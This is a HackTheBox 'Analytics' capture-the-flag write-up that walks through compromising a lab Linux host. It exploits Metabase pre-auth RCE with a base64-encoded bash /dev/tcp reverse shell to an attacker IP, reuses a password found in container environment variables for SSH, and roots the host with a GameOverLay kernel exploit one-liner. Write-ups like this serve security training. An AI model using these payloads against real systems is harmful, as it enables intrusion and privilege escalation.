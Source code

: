 ```yaml
---
layout: post
title: HackTheBox Analytics
date: 2023-10-07
tags: [HackTheBox, Linux, Easy]
---
```


# Machine Synopsis

Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a `Metabase` instance, which is vulnerable to Pre-Authentication Remote Code Execution (`[CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)`), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to `GameOverlay`, which is leveraged to obtain root privileges. ([Source](https://app.hackthebox.com/machines/Analytics/information))

# Enumeration

```bash
$ nmap -sC -sV 10.10.11.233
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.11.233
Host is up (0.046s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.32 seconds
```

Here is the website.



![webpage](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Analytics/webpage.png?raw=true)

Here is the login page.

![login](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Analytics/login.png?raw=true)

Default credentials did not work.



# Exploitation

Doing a research on Metabase and its vulnerabilities resulted in this article explaining [CVE-2023-38646](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

From the article, we can exploit the vulnerability using a valid `session-token`, the `/api/setup/validate` endpoint, and a crafted payload (which was provided in the article).

![session_token](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Analytics/session_token.png?raw=true)

![burp_reverse_shell](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Analytics/burp_reverse_shell.png?raw=true)

>   **Note**: The base64 payload cannot have equal sign, therefore we need to pad the original payload with spaces at the end to obtain a base64 payload without spaces.
>
>   ``` bash
>   # with no space padded
>   bash -i >&/dev/tcp/10.10.14.16/9998 0>&1
>   YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE2Lzk5OTggMD4mMQ==
>   
>   # with one space padded
>   bash -i >&/dev/tcp/10.10.14.16/9998 0>&1 
>   YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE2Lzk5OTggMD4mMSA=
>   
>   # with two spaces padded
>   bash -i >&/dev/tcp/10.10.14.16/9998 0>&1  
>   YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE2Lzk5OTggMD4mMSAg
>   ```

```bash
$ nc -nlvp 9998
listening on [any] 9998 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.233] 39952
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
b0bc01f6c5ef:/$ whoami
metabase
```

This looks like a docker container due to the random characters hostname.

```bash
b0bc01f6c5ef:/$ ls -la
total 88
drwxr-xr-x    1 root     root          4096 May 17 12:53 .
drwxr-xr-x    1 root     root          4096 May 17 12:53 ..
-rwxr-xr-x    1 root     root             0 May 17 12:53 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29  2023 app
drwxr-xr-x    1 root     root          4096 Jun 29  2023 bin
drwxr-xr-x    5 root     root           340 May 17 12:53 dev
drwxr-xr-x    1 root     root          4096 May 17 12:53 etc
drwxr-xr-x    1 root     root          4096 Aug  3  2023 home
drwxr-xr-x    1 root     root          4096 Jun 14  2023 lib
drwxr-xr-x    5 root     root          4096 Jun 14  2023 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3  2023 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14  2023 mnt
drwxr-xr-x    1 root     root          4096 Jun 15  2023 opt
drwxrwxrwx    1 root     root          4096 Aug  7  2023 plugins
dr-xr-xr-x  210 root     root             0 May 17 12:53 proc
drwx------    1 root     root          4096 Aug  3  2023 root
drwxr-xr-x    2 root     root          4096 Jun 14  2023 run
drwxr-xr-x    2 root     root          4096 Jun 14  2023 sbin
drwxr-xr-x    2 root     root          4096 Jun 14  2023 srv
dr-xr-xr-x   13 root     root             0 May 17 12:53 sys
drwxrwxrwt    1 root     root          4096 Aug  3  2023 tmp
drwxr-xr-x    1 root     root          4096 Jun 29  2023 usr
drwxr-xr-x    1 root     root          4096 Jun 14  2023 var

b0bc01f6c5ef:/$ env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=b0bc01f6c5ef
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

Checked the environment variables of the docker container and found a username and password. This credentials were reused for SSH.

```bash
$ ssh metalytics@10.10.11.233
...
metalytics@analytics:~$
```

# Privilege Escalation

Performed enumeration on the host.

```bash
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics: 
Sorry, user metalytics may not run sudo on localhost.

metalytics@analytics:~$ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy

metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

It turns out that this Ubuntu kernel version was vulnerable to [CVE-2023-2640 and CVE-2023-32629](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/). 

```bash
# payload to escalate privileges
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```



